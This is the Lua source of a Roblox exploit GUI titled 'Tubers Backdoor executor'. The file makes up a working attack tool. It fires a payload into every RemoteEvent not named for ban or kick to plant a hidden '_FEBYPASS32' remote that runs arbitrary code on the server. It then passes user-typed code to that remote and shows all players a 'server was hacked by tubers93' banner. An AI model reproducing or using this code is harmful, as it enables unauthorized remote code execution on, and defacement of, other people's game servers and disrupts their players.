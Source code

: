 local plr = game.Players.LocalPlayer
local gui = Instance.new("ScreenGui", plr:WaitForChild("PlayerGui"))
gui.Name = ""
gui.ResetOnSpawn = false

local frame = Instance.new("Frame", gui)
frame.Name = "Frame"
frame.Size = UDim2.new(0, 490, 0, 270)
frame.Position = UDim2.new(0.3, 0, 0.3, 0)
frame.BackgroundColor3 = Color3.fromRGB(20, 20, 20)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = false

local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, 0, 0, 40)
title.BackgroundTransparency = 1
title.Text = "Tubers Backdoor executor"
title.TextColor3 = Color3.fromRGB(125, 71, 0)
title.Font = Enum.Font.SourceSansBold
title.TextSize = 20

local box = Instance.new("TextBox", frame)
box.Size = UDim2.new(1, -10, 0, 190)
box.Position = UDim2.new(0, 5, 0, 40)
box.BackgroundColor3 = Color3.fromRGB(40, 40, 40)
box.TextColor3 = Color3.fromRGB(255, 255, 255)
box.Font = Enum.Font.Code
box.TextSize = 16
box.ClearTextOnFocus = false
box.MultiLine = true
box.TextWrapped = true
box.TextXAlignment = Enum.TextXAlignment.Left
box.TextYAlignment = Enum.TextYAlignment.Top
box.Text = "www.youtube.com/@c00lkidd_Trolling"

local exec = Instance.new("TextButton", frame)
exec.Size = UDim2.new(0.48, 0, 0, 30)
exec.Position = UDim2.new(0.01, 0, 1, -35)
exec.BackgroundColor3 = Color3.fromRGB(79, 45, 1)
exec.Text = "Execute"
exec.TextColor3 = Color3.new(1, 1, 1)
exec.Font = Enum.Font.SourceSansBold
exec.TextSize = 16

local clear = Instance.new("TextButton", frame)
clear.Size = UDim2.new(0.48, 0, 0, 30)
clear.Position = UDim2.new(0.51, 0, 1, -35)
clear.BackgroundColor3 = Color3.fromRGB(125, 71, 0)
clear.Text = "Clear"
clear.TextColor3 = Color3.new(1, 1, 1)
clear.Font = Enum.Font.SourceSansBold
clear.TextSize = 16

local scanner = Instance.new("TextButton", frame)
scanner.Size = UDim2.new(0, 95, 0, 30)
scanner.Position = UDim2.new(0, 5, 1, -266)
scanner.BackgroundColor3 = Color3.fromRGB(125, 71, 0)
scanner.Text = "scan Backdoor"
scanner.TextColor3 = Color3.fromRGB(255, 255, 255)
scanner.Font = Enum.Font.GothamBold
scanner.TextSize = 13

local closeBtn = Instance.new("TextButton", frame)
closeBtn.Size = UDim2.new(0, 40, 0, 30)
closeBtn.Position = UDim2.new(0, 445, 1, -266)
closeBtn.BackgroundColor3 = Color3.fromRGB(79, 45, 1)
closeBtn.Text = "X"
closeBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
closeBtn.Font = Enum.Font.GothamBold
closeBtn.TextSize = 17

closeBtn.MouseButton1Click:Connect(function()
	frame:Destroy()
end)







local picture = Instance.new("ImageLabel", frame)
picture.Size = UDim2.new(0, 165, 0, 140) 
picture.Position = UDim2.new(0, 175, -0.51, 0) 
picture.BackgroundTransparency = 1 
picture.Image = "rbxassetid://114269050505836" 


local minimizeBtn = Instance.new("TextButton", frame)
minimizeBtn.Size = UDim2.new(0, 40, 0, 30)
minimizeBtn.Position = UDim2.new(0, 405, 1, -266)
minimizeBtn.BackgroundColor3 = Color3.fromRGB(79, 45, 1)
minimizeBtn.Text = "-"
minimizeBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
minimizeBtn.Font = Enum.Font.GothamBold
minimizeBtn.TextSize = 17

minimizeBtn.MouseButton1Click:Connect(function()
	frame.Visible = false
	local openBtn = Instance.new("TextButton", gui)
	openBtn.Size = UDim2.new(0, 92, 0, 25)
	openBtn.Position = UDim2.new(0, 170, 0, -35)
	openBtn.BackgroundColor3 = Color3.fromRGB(125, 71, 0)
	openBtn.Text = "Open executor"
	openBtn.TextColor3 = Color3.new(1, 1, 1)
	openBtn.Font = Enum.Font.GothamBold
	openBtn.TextSize = 14

	openBtn.MouseButton1Click:Connect(function()
		frame.Visible = true
		openBtn:Destroy()
	end)
end)

exec.MouseButton1Click:Connect(function()
	local source = box.Text
	local feRemote = game:GetService("JointsService"):FindFirstChild("_FEBYPASS32")

	if feRemote then
		feRemote:FireServer([[ 
			local user_code = ]] .. string.format("%q", source) .. [[
			local loadsuccess, loadfunc = pcall(loadstring, user_code)
			if loadsuccess and loadfunc then
				pcall(loadfunc)
			end
		]])
	else
		local fn, err = loadstring(source)
		if fn then
			pcall(fn)
		end
	end
end)

clear.MouseButton1Click:Connect(function()
	box.Text = ""
end)

scanner.MouseButton1Click:Connect(function()
	local function b_G_V12(see)
		local a = function(ree)
			ree:FireServer([[ 
				local folder = Instance.new('RemoteEvent')
				folder.Name = "_FEBYPASS32"
				folder.Parent = game:GetService("JointsService")
				local loadstring = require(13684410229)
				folder.OnServerEvent:Connect(function(_1,_2)
					loadstring(_2)()
				end)
			]])
		end
		for i, v in pairs(see:GetChildren()) do
			if v:IsA("RemoteEvent") then
				if not string.match(string.lower(v.Name), "ban") and not string.match(string.lower(v.Name), "kick") then
					a(v)
				end
			end
			b_G_V12(v)
		end
	end

	scanner.Text = "scanning."
	wait(0.5)
	scanner.Text = "scanning.."
	wait(0.5)
	scanner.Text = "scanning..."
	wait(0.5)
	scanner.Text = "scanning."
	wait(0.5)
	scanner.Text = "scanning.."
	wait(0.5)
	scanner.Text = "scanning..."
	wait(0.5)
	scanner.Text = "no Backdoor"

	b_G_V12(game:GetService("ReplicatedStorage"))

	local timetoken = 0
	local maxtime = 5
	repeat wait(0.1) timetoken += 0.1 until game:GetService("JointsService"):FindFirstChild("_FEBYPASS32") or timetoken >= maxtime

	if game:GetService("JointsService"):FindFirstChild("_FEBYPASS32") then
		scanner.Text = "Found😎"

		local feRemote = game:GetService("JointsService"):FindFirstChild("_FEBYPASS32")
		if feRemote then
			feRemote:FireServer([[ 
				local hint = Instance.new("Hint")
				hint.Text = "Tubers93 Hack the server"
				hint.Parent = game.Workspace
				task.delay(30, function() hint:Destroy() end)
			]])

			feRemote:FireServer([[ 
				for _, player in ipairs(game.Players:GetPlayers()) do
					local gui = Instance.new("ScreenGui")
					gui.Name = "HelloMenu"
					gui.ResetOnSpawn = false
					gui.Parent = player:WaitForChild("PlayerGui")

					local frame = Instance.new("Frame", gui)
					frame.Size = UDim2.new(0, 500, 0, 150)
					frame.Position = UDim2.new(0.5, -165, 0.5, -75)
					frame.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
					frame.Active = true
					frame.Draggable = true

					local label = Instance.new("TextLabel", frame)
					label.Size = UDim2.new(1, 0, 0.6, 0)
					label.Position = UDim2.new(0, 0, 0, 0)
					label.Text = "Warning!!!! This server was hacked by tubers93"
					label.TextColor3 = Color3.new(1, 1, 1)
					label.Font = Enum.Font.Gotham
					label.TextSize = 20
					label.BackgroundTransparency = 1

					local button = Instance.new("TextButton", frame)
					button.Size = UDim2.new(0.5, 0, 0.3, 0)
					button.Position = UDim2.new(0.25, 0, 0.65, 0)
					button.Text = "OK"
					button.BackgroundColor3 = Color3.fromRGB(125, 71, 0)
					button.TextColor3 = Color3.new(1, 1, 1)
					button.Font = Enum.Font.GothamBold
					button.TextSize = 18

					button.MouseButton1Click:Connect(function()
						gui:Destroy()
					end)
				end
			]])
		end

		
	end
end)




local UIS = game:GetService("UserInputService")
local RunService = game:GetService("RunService")

local dragging = false
local dragInput, mousePos, framePos
local targetPos = frame.Position
local smoothSpeed = 0.1

UIS.InputBegan:Connect(function(input)
	if input.UserInputType == Enum.UserInputType.MouseButton1 and UIS:GetFocusedTextBox() == nil then
		local mouse = input.Position
		if frame.AbsolutePosition.X <= mouse.X and mouse.X <= frame.AbsolutePosition.X + frame.AbsoluteSize.X and
		   frame.AbsolutePosition.Y <= mouse.Y and mouse.Y <= frame.AbsolutePosition.Y + frame.AbsoluteSize.Y then
			dragging = true
			mousePos = input.Position
			framePos = frame.Position
			targetPos = frame.Position
		end
	end
end)

UIS.InputChanged:Connect(function(input)
	if dragging and input.UserInputType == Enum.UserInputType.MouseMovement then
		dragInput = input
	end
end)

UIS.InputEnded:Connect(function(input)
	if input.UserInputType == Enum.UserInputType.MouseButton1 then
		dragging = false
	end
end)

RunService.RenderStepped:Connect(function()
	if dragging and dragInput then
		local delta = dragInput.Position - mousePos
		targetPos = UDim2.new(
			framePos.X.Scale, framePos.X.Offset + delta.X,
			framePos.Y.Scale, framePos.Y.Offset + delta.Y
		)
	end
	frame.Position = frame.Position:Lerp(targetPos, smoothSpeed)
end)
